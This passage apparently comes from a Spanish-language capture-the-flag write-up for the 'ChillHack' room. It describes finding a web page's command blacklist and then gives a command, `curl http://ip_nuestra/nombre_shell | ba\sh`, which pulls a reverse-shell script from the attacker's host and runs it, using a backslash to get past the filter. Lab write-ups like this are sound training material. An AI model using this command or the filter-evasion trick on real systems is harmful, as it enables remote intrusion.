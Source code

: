         <img src="../assets/images/Rooms/ChillHack/image 10_2.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:800px">
      </div>
    </td>
  </tr>
</table>

Vemos que si escapamos el comando `cat /index.php` encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una <em>reverse shell</em> desde la página web:
<div style="text-align:center;">
  <img src="../assets/images/Rooms/ChillHack/image 12.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:800px">
</div>

Ahora, en la web vamos a ejecutar el comando:
<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Bash
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-bash" >curl http://ip_nuestra/nombre_shell | ba\sh</code></pre>
  </div>
</div>
